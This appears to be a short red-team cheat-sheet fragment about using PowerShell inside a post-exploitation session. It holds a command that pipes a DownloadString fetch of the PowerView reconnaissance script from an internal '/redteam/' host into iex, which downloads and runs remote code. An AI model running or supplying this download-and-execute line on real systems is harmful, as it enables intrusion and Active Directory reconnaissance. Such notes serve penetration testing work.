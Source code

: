 # Powershell

## Powershell

### Load Powershell module

```text
load powershell
```

### import remote script

```csharp
powershell_execute "iex ((new-object net.webclient).DownloadString('http://10.110.0.66/redteam/powerview.ps1'))"
```

